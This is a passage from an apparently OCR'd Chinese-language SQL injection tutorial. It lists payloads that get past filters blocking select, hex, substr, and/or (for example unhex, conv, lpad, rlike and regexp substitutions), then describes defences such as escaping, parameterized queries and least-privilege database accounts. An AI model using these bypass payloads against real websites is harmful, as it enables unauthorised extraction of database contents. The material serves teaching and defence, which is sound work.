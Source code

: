 过滤select

```
逻辑绕过过滤代码 1 && (select substr(group_concat(user_id),1,1) user from users ) = 1
绕过方式 1 && substr(user,1,1) = 'a' 
```

过滤hex

```
逻辑绕过过滤代码 1 && substr(user,1,1) = unhex(61)
绕过方式 1 && substr(user,1,1) = lower(conv(11,10,16)) #十进制的11转化为十六进制，并小写。 
```

过滤substr

```
逻辑绕过过滤代码 1 && substr(user,1,1) = lower(conv(11,10,16)) 
绕过方式 1 && lpad(user(),1,1) in 'r' 
```

过滤and，or

```
#等价关键字，在很多时候，当关键字被过滤后，可通过与其等价的其他关键字来绕过。
等价and
假如：select * from tb1 where id=1 and 1=1
此时和and等价关键字有：like（1 like 1。like可跟通配符。），rlike（1 rlike 1 rlike可跟正则表达式。），regexp（1 regexp 1 regexp可跟正则表达式。），&（1 && 1 ，逻辑与），&&（1 & 1，按位与，任意数&0的值为0），与and的结果都是1.

等价or
假如：select * from tb1 where id=1 or 1=1;
此时等价or的关键字有：||	（逻辑或），|	（按位或），任意数|0的值为任意数
```

## 3.sql注入的防御方法

### 3.1 过滤

可以对用户提交的敏感字符进行过滤和拦截。

### 3.2 转义

可以对用户提交的敏感字符进行转义。

### 3.3 参数化查询

参数化查询也叫做预处理，它分两个步骤处理用户的输入。

+ 网站应用程序指定了查询语句结构，并为用户输入的每个数据预留了占位符。
+ 网站应用程序指定每个占位符的内容。

在第二个步骤中，用户输入被填入占位符，但不会改变第一个步骤中预设好的查询语句结构。这样，网站应用程序就不会将用户输入判断为sql语句执行了，而会把用户的输入当做一个整体去查询。

###  3.4 加密存储

对重要数据，不在表单中明文存储，而选择加密存储。

### 3.5 限制数据库权限和特权

将数据库用户的功能设置为最低要求；这将限制攻击者在设法获取访问权限时可以执行的操作。

